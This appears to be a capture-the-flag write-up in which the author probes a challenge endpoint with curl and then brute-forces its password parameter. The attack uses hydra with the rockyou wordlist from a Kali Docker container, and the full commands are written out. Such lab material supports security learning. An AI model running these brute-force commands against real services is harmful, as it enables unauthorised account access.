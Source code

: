 ## Hacking the cracker

the route http://34.69.146.51:5000/level6/
returns to us:

{"error":"Invalid password"}

which obiously means that we need to send a password to the server.

I tried to send a password with curl via the following command:


```bash
curl -X POST http://34.69.146.51:5000/level6/ -H "Content-Type: application/json" -d '{"password": "testpassword"}'
```

and the response was:

$ curl -X POST http://34.69.146.51:5000/level6/ -H "Content-Type: application/json" -d '{"password": "testpassword"}'
<!doctype html>
<html lang=en>
<title>405 Method Not Allowed</title>
<h1>Method Not Allowed</h1>
<p>The method is not allowed for the requested URL.</p>

which means it isnt a post request, so lets try a basic get request, with a password variable in the url:

```bash
http://34.69.146.51:5000/level6/?password=3
```
this does return invalid password

so we will start with a python script and bruteforce the password.


using hydra kali linux

basic flow for the kali linux docker

docker pull kalilinux/kali-rolling

docker run --network host -it kalilinux/kali-rolling /bin/bash

apt update

apt install hydra

hydra -h



 docker cp C:\Users\yaniv\ctf_challenge\excellenteam-ctf-yaniv242\level_6\rockyou.txt 4e749fdea52228eb9a206c6eaf230c1180614d4643f5663387032d3468c90155:/root/rockyou.txt

finaly the perfect command:
```bash
hydra -vV -l dummy -P rockyou.txt 34.69.146.51 http-get "/level6/?password=^PASS^:F=Invalid password" -s 5000
```

so in the end, the point of the drill was to catch the body erturned from the server, and not the header, which i was trying to catch.
so there was no point in using hydra, or checking for different types of status codes, as the server always returns 200 or 401 status codes.
and the body is the only thing that changes.

```bash

2024-09-10 13:19:05,289 - logger - CRITICAL - Password successful: dog, Response: {"error":"Request processing took too long and timed out... , try to fetch part of the data by specifying start and end of a batch"}